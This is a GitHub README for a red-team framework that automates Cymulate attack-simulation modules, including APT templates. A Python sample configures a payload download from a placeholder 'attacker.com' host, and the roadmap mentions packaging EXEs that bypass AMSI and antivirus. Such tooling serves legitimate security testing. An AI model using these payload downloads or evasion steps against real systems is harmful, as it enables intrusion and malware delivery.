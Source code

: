# cymulate-framework

![](https://i.imgur.com/B9Z8nyQ.png)

- **Notice**: This project is still under development and not ready for production use.

## Introduction

The framework to automate Cymulate's modules and templates.

**What is Cymulate?**

> [Cymualte](https://cymulate.com/) is a BAS (Break and Attack Simulation) platform that provides a comprehensive set of attack simulations based on the **MITRE ATT&CK® framework** to test the effectiveness of your security controls.

This project is aimed to help red team construct fully customizable and automated APT attacks easily.

## Functionality

- [ ] Scrape modules and templates from Cymulate and transform them into scripts.
- [ ] Automate the execution of templates such as APT, Phishing, etc.
- [ ] Generate standalone EXE for templates and bypass AMSI, Antivirus

## Usage

Make sure `python 3.11+` and `poetry` are installed:

- **Python** - https://www.python.org/downloads/
- **Poetry** - https://python-poetry.org/docs/#installation

```bash
git clone https://github.com/opabravo/cymulate-framework
cd cymulate-framework

# Install required python packages
poetry install

# Activate virtual environment
poetry shell

# Run default template (APT34)
python main.py

# Run desired execution module by id
python main.py <module_id>
# Ex:
python main.py 62385f03a0e69ed2274622cc
```

Batch Scripts:

- `client_start.bat` - Reset and update to the latest version of the framework then run `main.py`

## How it works

Cymulate's execution module have 5 main steps:

1. **Check dependency** - Check if required dependencies are installed.
2. **Execution** -Run the mitre ATT&CK technique execution.
3. **Success Indicate** - Check if the attack was successful via parsing execution output or check exit code.
4. **Output Parsing** - Parse the output of the execution for further uses.
5. **Cleanup** - Clean up the execution environment.

The framework will automate the execution of the above steps.

## Customization

We can pass self defined parameters to the execution module like this:

```python
# Import windows module from core
from core.module.windows import WindowsModule

# Create a windows module instance
execution = WindowsModule("62385f03a0e69ed2274622cc", debug=True)
# Update the input arguments to your own ones
execution.input_arguments.update({
    "download_file_url": "https://attacker.com/very_dangerous_excel.xlsx",
    "download_file_path": "$env:userprofile\Downloads\Income.xlsm",
})
# Execute the module after initialization
execution.run()
```

## Development

### Environment

- Python 3.11+
- Poetry

### Setup

```powershell
# Install dependencies
poetry install

# Activate the virtual environment
poetry shell
```

### Blueprint

- `Basic structure` - The basic structure of the project.
- `APT template` - APT template automation test.
- `Scrape modules and templates` - Scrape modules and templates via Cymulate's [API](https://api.app.cymulate.com/docs/#/)
- `Transform modules and templates` - Transform modules and templates into cymulate-framework modules.
- `Automate execution` - Automate the execution of templates.
- `APT Script generator` - Generate scripts for APT template with extracted specific execution scripts (don't wanna load the 20+mb json file) and load corresponding required 3rd party pip packages into scripts
- `Pack Script to EXE` - Pack generated template script with its requirements(pip packages, execution scripts) into EXE via `pyisntaller`, `py2exe` or `Nuitka`
- `ClI` - A CLI to interact with the framework.

### Notes

- Using `builtin dataclass` + `dacite` for JSON deserializing model instead of `pydantic` since `dacite` is enough for the purpose.

## Contributing

Feel free to submit pull requests and issues.

## License

[MIT](https://choosealicense.com/licenses/mit/)
